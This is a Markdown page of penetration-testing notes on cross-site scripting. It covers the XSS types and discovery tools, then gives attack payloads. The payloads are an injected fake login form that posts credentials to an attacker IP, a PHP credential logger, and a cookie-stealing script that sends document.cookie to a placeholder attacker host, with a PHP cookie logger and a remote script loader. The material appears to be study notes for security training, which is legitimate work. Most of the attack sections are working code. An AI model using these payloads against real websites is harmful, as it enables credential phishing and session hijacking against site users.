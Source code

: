 ```yaml
---
description: Cross-Site Scripting
---
```


# XSS

When a vulnerable webapp receiving HTML code from back-end and rendering it on client-side does not properly santize user input its possible to inject Javascript code into input fields.&#x20;

### <mark style="color:yellow;">XSS Attacks</mark>

Stored XSS is persistant meaning stored on server and will affect any user which visits the page.&#x20;

Non-persistent meaning not stored on server and temporary. Reflected XSS gets processed by server and DOM-based XSS is fully processed on client-side, never reaching back-end server.

<table><thead><tr><th width="161">Type</th><th>Descriptions</th></tr></thead><tbody><tr><td>Stored XSS</td><td>Most critical, occurs when user input is stored on back-end database.</td></tr><tr><td>Reflected XSS</td><td>Occurs when user input is displayed after being processed by backend server.</td></tr><tr><td>DOM XSS</td><td>Occurs when user input is directly shown in the browser and is completely processed on the client-side</td></tr></tbody></table>

### <mark style="color:yellow;">XXS Discovery</mark>

Use automated scanners like Nessus, Nikto, Burp, ZAP.  Or open source tools:

* XSS strik
* Brute XSS
* XSSer

Manuallly test using XSS payloads intro input elements and HTTP headers.  [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)

Code review, understand how input is being handled to write custsom payloads.&#x20;

### <mark style="color:yellow;">XSS Attacks</mark>

There is defacing where we can change the look and feel of website, even changing text.

Phishing attack

```html
# Create Login page
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Payload&#x20;

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.24:8888><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

Simple PHP script&#x20;

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

### <mark style="color:yellow;">Session Hijacking</mark>

Its possible to use JavaScript to collect victim's cookies and send them to their own server and login.&#x20;

Sometimes we can't see how our input is handled which is called Blind XSS, we can still check for vulns by using http requests.&#x20;

```bash
# Write this line to script.js
new Image().src='http://PWNIP:PWNPO/index.php?c='+document.cookie;

# Host index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

# Start listener
php -S 0.0.0.0:8080

# Execute payload
"><script src=http://PWNIP:PWNPO/script.js></script> 
```

